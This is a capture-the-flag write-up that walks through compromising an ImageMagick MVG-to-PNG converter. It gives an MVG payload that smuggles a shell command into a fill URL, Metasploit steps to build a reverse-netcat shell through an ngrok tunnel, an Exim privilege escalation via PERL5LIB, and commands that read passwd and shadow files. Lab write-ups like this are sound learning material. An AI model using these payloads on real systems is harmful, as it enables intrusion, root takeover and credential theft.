

# imagik

## Description

## Steps

When reading the description it appears that the CTF implies a website that can convert MVG to PNG. That lead to ImageMagick.

1. First I gather some intel on ImageMagick: https://www.exploit-db.com/exploits/39767. That link explain that some code can be inserted in a .mvg file

`push graphic-context`
`viewbox 0 0 640 480`
`fill 'url(https://example.com/image.jpg"|ls "-la")`
`op graphic-context`

2. After uploading the file, the website show a list of files, meaning the inserted code work !

3. The goal is to get a reverse shell so we can enter some commands that will be executed on the target machine. Personally I used ngrok to open a connection on the target machine. 
`ngrok tcp 4444`
In another terminal I launch a netcat
`nc -lvp 4444`

4. Let's open Metasploit to find some exploit and paylod to use.

`search imagemagick`

5. Select the one highlighted by metasploit.

`use exploit/unix/fileformat/imagemagick_delegate`

6. Now it's time to configure it. Let' type :
`show options` to get all options available
`set TARGET 1` to specify which target we will use
`set FILENAME msf.mvg` to change the name of file generated by Metasploit
`set LHOST 2.tcp.eu.ngrok.io` to specify your ngrok tcp tunnel (yours will be different)

7. Le't use a payload from metasploit

`show payloads` to select one of the multiple payloads.
`set payload/cmd/unix/reverse_netcat` I choose this one because of netcat
`run` to get a msf.mvg file.

8. Upload the file on the website. You should see in the ngrok dashboard and in the terminal with netcat listening a connection.

9. Now i's time to scan the server with some command like :
`ls`
`ps aux`

10. I saw a process named Exim4, which got a vulnerability : https://www.exploit-db.com/exploits/39549

11. I entered this script, located at this url : https://github.com/hackerhouse-opensource/exploits/blob/master/cve-2016-1531.sh

The exploit takes advantage of a vulnerability in Exim where it improperly handles certain Perl library paths.
By setting `PERL5LIB` to `/tmp` we make Exim load the malicious `root.pm` module.
The `-Mroot` option forces the loading of the module.
When Exim runs with these settings, it executes the module with elevated privileges.
the module then spawns a shell (/bin/sh), which inherits Exim's elevated privileges.

12. Type `whoami` to see if the script worked by giving us root privilege.

13. We can know look for the files needed to obtain the flags and finish the challenge.
`cat /passwd`
`cat /shadow`